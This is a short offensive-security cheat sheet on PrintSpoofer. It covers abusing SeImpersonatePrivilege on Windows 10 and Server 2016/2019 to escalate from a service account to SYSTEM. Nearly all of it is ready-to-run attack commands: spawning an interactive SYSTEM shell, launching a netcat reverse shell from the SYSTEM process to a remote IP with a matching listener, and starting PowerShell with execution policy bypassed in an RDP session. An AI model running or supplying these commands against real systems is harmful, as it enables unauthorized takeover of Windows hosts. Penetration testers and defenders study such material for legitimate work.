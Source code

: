 # Printspoofer / SEImpersonate

{% embed url="https://github.com/itm4n/PrintSpoofer" %}

#### From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019.

{% embed url="https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/" %}

### Spawn a SYSTEM process and interact with it

If you have an interactive shell, you can create a new SYSTEM process in your current console.

```text
PrintSpoofer.exe -i -c cmd
```

### Spawn a SYSTEM process and exit

If you can execute commands but you don't have an interactive shell, you can create a new SYSTEM process and exit immediately without interacting with it.

Use case: WinRM, WebShell, wmiexec.py, smbexec.py, etc.

```text
PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
```

Netcat listener:

```text
nc.exe -l -p 1337
```

### Spawn a SYSTEM process on a desktop

If you are logged on locally or via RDP \(including VDI\), you can spawn a SYSTEM command prompt on your desktop. First, check your session ID with the command qwinsta and then specify this value with the option -d.

Use case: Terminal Session \(RDP\), VDI

```text
qwinsta

# check your session ID

PrintSpoofer.exe -d [rdp session id number] -c "powershell -ep bypass"

PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
```

